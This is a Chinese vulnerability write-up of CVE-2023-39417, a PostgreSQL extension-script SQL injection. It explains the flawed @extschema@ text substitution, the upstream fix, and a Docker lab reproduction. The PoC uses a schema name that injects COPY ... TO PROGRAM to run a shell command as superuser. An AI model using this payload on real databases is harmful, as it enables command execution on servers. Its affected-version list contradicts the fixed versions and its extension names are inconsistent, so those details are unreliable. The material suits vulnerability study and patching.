


# CVE-2023-39417 CWE-89 PostgreSQL SQL注入

## 漏洞背景

- **PostgreSQL：**PostgreSQL 是一个开源、功能强大的对象关系型数据库管理系统，广泛应用于 Web 开发、数据分析和企业级应用。它支持 ACID 事务、复杂查询、全文搜索和多版本并发控制（MVCC），确保高并发和数据一致性。PostgreSQL 提供了扩展性，允许用户自定义数据类型、函数和索引，还支持 JSON 和地理空间数据。
- **扩展（Extension）：**PostgreSQL 的一种打包机制，用来把一组 SQL 对象（如函数、类型、操作符、表、视图等）和对应的安装脚本集中管理；数据库管理员只需通过 `CREATE EXTENSION` 命令，就能一次性在数据库里创建这些对象，而无需手动逐条执行 SQL 文件，从而方便分发、安装、升级和维护第三方功能模块（如 `postgis`、`hstore` 等）。`.control` 文件告诉 PostgreSQL 这个扩展的基本信息和元数据，相当于扩展的“说明书”。`--<version>.sql` 文件定义安装扩展时要执行的 SQL 脚本内容（建表、建函数、建类型等）。PostgreSQL 会去找 `.control` 文件 → 看到 `default_version = '1.0'` → 自动加载并执行 `--1.0.sql` 里的所有 SQL。
- **schema（模式）：**PostgreSQL 中对象的逻辑命名空间，用来组织和管理表、视图、函数、类型等对象。类似于文件系统中的文件夹，不同 schema 下可以有同名对象而互不冲突，用户可以通过设置 `search_path` 控制对象查找顺序，从而实现对象隔离、权限控制和更灵活的数据库结构管理。
- **纯文本替换（text substitution）：**系统在处理扩展脚本时，并没有去“理解 SQL 语法结构”，只是把某个字符串片段机械地替换成另一个字符串，然后把整个替换后的 SQL 文本丢给解析器执行。
- **CWE-89（SQL Injection）：** 应用程序在构造 SQL 查询时，没有对用户输入进行正确的校验或转义，直接将其拼接进 SQL 语句，导致攻击者能够通过精心构造的输入破坏原有查询逻辑，插入恶意语句，从而实现越权访问、数据篡改、信息泄露甚至远程代码执行。

## 漏洞原理

PostgreSQL 在安装扩展时，会把扩展脚本中的占位符（如 **`@extschema@`**、`@extowner@`）直接做**纯文本替换**，而不判断它处于什么语法上下文及转义特殊字符；如果扩展作者把这些占位符放进了 **单引号或美元引号的字符串字面量**中，攻击者就能通过构造恶意的 schema/owner 名，在替换后**打破原有引号结构，拼接额外 SQL**，最终实现 **SQL 注入并以超级用户权限执行任意命令**。

## 漏洞定位

分析 PostgreSQL 12.2 源码：

在 src/backend/commands/extension.c 文件中，第 787 行`execute_extension_script`函数

在第 **900** 行，当`control->relocatable`为`false`时，对 `@extschema@` 进行的是**上下文无感知的纯文本替换**。`quote_identifier()`把传入的字符串包装成一个合法的 SQL 标识符表示形式，即必要时加上双引号 `"..."`，并把内部的 `"` 转义成 `""`。

如果扩展脚本把 `@extschema@` 放在**引号上下文**（`'...'` 单引号或 `$$...$$` 美元引号）里，替换后的内容会被**原样塞进字符串字面量**，从而可能**打破原有引号结构**或改变语句结构，攻击者可用 `'`、`;`、`--` 等打断并**拼接新语句**（SQL 注入）。

```c
static void execute_extension_script(Oid extensionOid, ExtensionControlFile *control,
                         const char *from_version,    // NULL=安装；非空=升级
                         const char *version,         // 目标版本
                         List *requiredSchemas,       // 依赖扩展的 schema 列表
                         const char *schemaName, Oid schemaOid)   // 目标 schema
{
    char *filename;
    int   save_nestlevel;
    StringInfoData pathbuf;

    // 按 control 文件要求：需要超级用户则在此强制检查
    if (control->superuser && !superuser())
        ereport(ERROR, ...);

    // 解析出要执行的脚本文件名（安装或升级脚本）
    filename = get_extension_script_filename(control, from_version, version);

    // 临时把日志级别提升到 WARNING，避免脚本里的噪声 NOTICE
    save_nestlevel = NewGUCNestLevel();
    if (client_min_messages < WARNING) set_config_option("client_min_messages","warning",...);
    if (log_min_messages    < WARNING) set_config_option("log_min_messages","warning",...);

    // 组装并设置 search_path：先是“目标 schema”，再拼上每个依赖扩展的 schema，
    initStringInfo(&pathbuf);
    // 用标识符引用包装目标 schema
    appendStringInfoString(&pathbuf, quote_identifier(schemaName));   
    foreach (lc, requiredSchemas) {
        char *reqname = get_namespace_name(lfirst_oid(lc));
        if (reqname) appendStringInfo(&pathbuf, ", %s", quote_identifier(reqname));
    }
    set_config_option("search_path", pathbuf.data, ...);

    // 标记“正在创建扩展”，便于后续依赖记录等内部机制
    creating_extension = true;
    CurrentExtensionObject = extensionOid;

    PG_TRY();
    {
        // 读完整脚本文本，转成 text datum 以便做文本处理
        char  *c_sql = read_extension_script_file(control, filename);
        Datum  t_sql = CStringGetTextDatum(c_sql);

        // 去掉脚本里以 \echo 开头的整行（避免用户手工执行的提示）
        t_sql = textregexreplace(t_sql, "^\\\\echo.*$", "", "ng");

        // 把脚本里的 @extschema@ 替换为 quote_identifier(schemaName)
        /******* 900 行 ******** ⚠️漏洞点 **************/
        if (!control->relocatable) {
            const char *qSchemaName = quote_identifier(schemaName);  // 形如 "myschema"
            t_sql = replace_text(t_sql,
                                 "@extschema@",          // **原样匹配**
                                 qSchemaName);           // **纯文本替换**
        }

        // 如果 control 设置了 module_pathname，同样做一次纯文本替换
        if (control->module_pathname)
            t_sql = replace_text(t_sql, "MODULE_PATHNAME", control->module_pathname);

        // 把处理后的脚本（C 字符串）交给 SQL 解析器执行（一次性执行整段文本）
        c_sql = text_to_cstring(t_sql);
        execute_sql_string(c_sql);
    }
    PG_CATCH();
    {
        creating_extension = false;
        CurrentExtensionObject = InvalidOid;
        PG_RE_THROW();
    }
    PG_END_TRY();

    creating_extension = false;
    CurrentExtensionObject = InvalidOid;

    // 恢复前面临时设置的 GUC
    AtEOXact_GUC(true, save_nestlevel);
}

```

## 漏洞修复


升级到 PostgreSQL 15.4、14.9、13.12、12.16、11.21，或相应分支中的更高版本。
在扩展脚本执行中 `execute_extension_script`,为替换目标引入了**特征白/黑名单检查**:当需要替换时 `@extowner@`， `@extschema@`,或 `@extschema:...@` 与实际的 * 所有人/schema * 一起,如果这些实际姓名中包含 `"`， `$`， `'`， `\` 将直接报告错误并拒绝替换**。 这样可以避免 SQL 由于这些值在**引用语境**中被压缩而导致的注射通道**(`$$...$$`， `'...'`， `"..."`)。

```c
/*
 * We filter each substitution through quote_identifier().  When the
 * arg contains one of the following characters, no one collection of
 * quoting can work inside $$dollar-quoted string literals$$,
 * 'single-quoted string literals', and outside of any literal.  To
 * avoid a security snare for extension authors, error on substitution
 * for arguments containing these.
 */
const char *quoting_relevant_chars = "\"$'\\";


// Detects userName
if (strpbrk(userName, quoting_relevant_chars))
				ereport(ERROR,
						(errcode(ERRCODE_INVALID_TEXT_REPRESENTATION),
						 errmsg("invalid character in extension owner: must not contain any of \"%s\"",
								quoting_relevant_chars)));

// Detects schemaName
if (t_sql != old && strpbrk(schemaName, quoting_relevant_chars))
				ereport(ERROR,
						(errcode(ERRCODE_INVALID_TEXT_REPRESENTATION),
						 errmsg("invalid character in extension \"%s\" schema: must not contain any of \"%s\"",
								control->name, quoting_relevant_chars)));
```

## 影响范围


** 受影响的版本:** PostgreSQL：

-  11.1 改为 11.19
-  12.0 改为 12.14
-  13.0 改为 13.10
-  14.0 改为 14.7
-  15.0 改为 15.2

## 环境搭建

启动 Docker 环境，PostgreSQL 版本为 12.2，管理员为 postgres，密码为 postgres，已存在数据库 test。

```txt
NIST:NVD   Base Score:8.8 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

CNA:Red Hat, Inc.   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:12.2:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行

   ```bash
   docker exec -it postgres-12.2 bash
   ```

2. 使用 postgres 用户身份连接容器中的 PostgreSQL 的数据库 test 

   ```bash
   psql -U postgres -d test
   ```

3. 创建带有恶意 sql 语句的 schema 名，sql 语句的目的是在 tmp 目录中创建文件 pwned

   ```bash
   CREATE SCHEMA "evil'; copy (select 'owned!') to program 'touch /tmp/pwned'; --";
   ```

4. 安装扩展，这会触发控制文件 `relocatable=false` 所带来的替换流程，并把 sql 脚本中的 `'@extschema@'` 替换成指定的 schema 名（纯文本替换）

   ```bash
   CREATE EXTENSION cve_2023_39417_extension SCHEMA "evil'; copy (select 'owned!') to program 'touch /tmp/pwned'; --";
   ```

5. 退出 psql ，使用命令可以看到 pwned 文件成功创建，输入 exit 退出

   ```bash
   \q
   
   ls -l /tmp/pwned
   ```

   

## PoC分析

cve_2023_2455_extension.control:

```ini
comment = 'cve_2023_2455 test extension'
# 告诉 PostgreSQL 默认安装哪个版本的脚本（对应 cve_2023_2455_extension--1.0.sql）
default_version = '1.0'
# 表示扩展不可重定位, 在 CREATE EXTENSION ... SCHEMA <X> 时, 会对扩展脚本里的占位符 @extschema@、@extowner@ 等进行文本替换，成功替换的条件1
relocatable = false
```

cve_2023_2455_extension--1.0.sql:

```sql
-- 安装扩展时，PostgreSQL 会先把 @extschema@ 用在 CREATE EXTENSION ... SCHEMA "<名字>" 里指定的 schema 名做原样文本替换，成功替换的条件2
SET search_path = '@extschema@';
```

利用步骤：

```sql
-- 创建一个名为 evil 的 schema, 标识符长度上限 63 字节
CREATE SCHEMA "evil'; copy (select 'owned!') to program 'touch /tmp/pwned'; --";

-- 按该 schema 安装扩展
CREATE EXTENSION cve_2023_2455_extension SCHEMA "evil'; copy (select 'owned!') to program 'touch /tmp/pwned'; --";
```

shema 名中的`COPY (SELECT 'owned!') TO PROGRAM 'touch /tmp/pwned'` 会执行一个外部命令 `touch /tmp/pwned`，并把 `owned!` 这个字符串作为输入传给它。

在安装扩展时，会触发控制文件 `relocatable=false` 所带来的替换流程，把脚本中的 `'@extschema@'` 替换成你指定的 schema 名（纯文本替换）

核心执行流：**读取 sql 脚本 → 先做占位符替换（文本级）→ 把替换后的 SQL 再交给解析器**。

- `.control` 文件把扩展设为**不可重定位**，从而开启 `@extschema@` 的**文本替换**；
- `--1.0.sql` 把占位符放进了**单引号**，因此替换后的 schema 名会直接进入字符串字面量里；
- 若 schema 名中含有能够改变语句结构的字符（如 `'`、`;`、`--` 等），解析器就可能把替换后的文本理解为**多条 SQL**

## 参考链接


[NVD - CVE-2023-39417](https://nvd.nist.gov/vuln/detail/CVE-2023-39417)

[Reject substituting extension schemas or owners matching  · postgres/postgres@cd5f2a3](https://github.com/postgres/postgres/commit/cd5f2a357014d5ed8205191f8e1fb180f1439599#diff-32c4fe18bf128a12861d8334cf197d3c8b85d77f8f2e20cb3040d35f2dffd408)

[CVE-2023-39417 - Exploiting SQL Injection in PostgreSQL Extension Scripts for Remote Code Execution](https://www.cve.news/cve-2023-39417/)
